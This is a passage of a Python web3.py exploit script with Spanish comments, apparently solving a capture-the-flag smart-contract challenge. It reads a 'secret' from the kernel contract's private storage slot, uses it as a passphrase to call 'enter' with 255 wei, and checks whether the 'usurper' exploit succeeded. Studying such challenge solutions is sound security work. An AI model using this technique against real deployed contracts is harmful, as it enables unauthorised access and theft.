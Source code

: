 ```python

# 5. Obtener la dirección del contrato kernel
kernel_address = target_contract.functions.kernel().call()
print("Dirección del kernel:", kernel_address)

# 6. Leer el storage slot 0 del kernel para obtener el secret
kernel_storage = w3.eth.get_storage_at(kernel_address, 0)
print("Raw storage slot 0 del kernel:", kernel_storage.hex())

# Se asume que el secret (bytes4) está almacenado en los últimos 4 bytes del slot
secret = kernel_storage[-4:].hex()  # Extrae los últimos 4 bytes
print("Secret extraído (bytes4):", "0x" + secret)

# Construir el passphrase a utilizar (usando directamente el secret)
passphrase = "0x" + secret
print("Passphrase a utilizar:", passphrase)

# 7. Llamar a la función 'enter' enviando EXACTAMENTE 255 wei.
nonce = w3.eth.get_transaction_count(player_address)
enter_txn = target_contract.functions.enter(passphrase).build_transaction({
    'from': player_address,
    'value': 255,  # EXACTAMENTE 255 wei
    'nonce': nonce,
    'gas': 300000,
    'gasPrice': w3.to_wei('10', 'gwei')
})

signed_enter_txn = w3.eth.account.sign_transaction(enter_txn, private_key=player_private_key)
tx_hash = w3.eth.send_raw_transaction(signed_enter_txn.raw_transaction)
print("Transacción de 'enter' enviada. Tx hash:", tx_hash.hex())

enter_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
print("Transacción 'enter' minada en el bloque:", enter_receipt.blockNumber)
print("Logs completos de 'enter':")
for log in enter_receipt.logs:
    print(log)

# Decodificar evento VillagerEntered (si se emitió)
try:
    enter_events = target_contract.events.VillagerEntered().process_receipt(enter_receipt)
    print("Eventos VillagerEntered:")
    for event in enter_events:
        print(json.dumps(dict(event), indent=4, default=lambda o: o.hex() if hasattr(o, 'hex') else o))
except Exception as e:
    print("Error al decodificar VillagerEntered:", e)

# 8. Consultar los roles asignados (para depuración)
try:
    roles = target_contract.functions.getVillagerRoles(player_address).call({'from': player_address})
    print("Roles asignados al jugador:", roles)
except Exception as e:
    print("No se pudo obtener los roles:", e)

# 9. Llamar a 'checkUsurper' para verificar si se logró el exploit
nonce = w3.eth.get_transaction_count(player_address)
check_txn = target_contract.functions.checkUsurper(player_address).build_transaction({
    'from': player_address,
    'nonce': nonce,
    'gas': 300000,
    'gasPrice': w3.to_wei('10', 'gwei')
})
```